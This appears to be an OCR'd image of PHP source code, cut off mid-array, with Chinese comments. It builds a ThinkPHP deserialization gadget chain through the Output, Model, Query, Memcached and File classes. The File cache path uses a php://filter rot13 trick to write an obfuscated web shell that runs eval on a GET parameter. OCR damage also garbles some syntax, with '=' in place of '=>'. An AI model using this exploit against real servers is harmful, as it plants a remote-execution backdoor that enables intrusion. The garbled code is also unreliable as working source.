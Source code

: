```php

namespace think\console;#Output
use think\session\driver\Memcached;
class Output{
    private $handle = null;
    protected $styles = [];
    function __construct(){
        $this->handle = new Memcached();//目的调用其write()
        $this->styles = ['getAttr'];
    }
}

namespace think;#Model
use think\model\relation\HasOne;
use think\console\Output;
use think\db\Query;
abstract class Model{
    protected $append = [];
    protected $error;
    public $parent;#修改处
    protected $selfRelation;
    protected $query;
    protected $aaaaa;

    function __construct(){
        $this->parent = new Output();#Output对象,目的是调用__call()
        $this->append = ['getError'];
        $this->error = new HasOne();//Relation子类,且有getBindAttr()
        $this->selfRelation = false;//isSelfRelation()
        $this->query = new Query();

    }
}

namespace think\db;#Query
use think\console\Output;
class Query{
    protected $model;
    function __construct(){
        $this->model = new Output();
    }
}

namespace think\session\driver;#Memcached
use think\cache\driver\File;
class Memcached{
    protected $handler = null;
    function __construct(){
        $this->handler = new File();//目的调用File->set()
    }
}
namespace think\cache\driver;#File
class File{
    protected $options = [];
    protected $tag;
    function __construct(){
        $this->options = [
        'expire'        =0,
        'cache_subdir'  =false,
        'prefix'        ='',
        'path'          ='php://filter/write=string.rot13/resource=./<?cuc cucvasb();riny($_TRG[q1ab])?>',
        'data_compress' =false,
```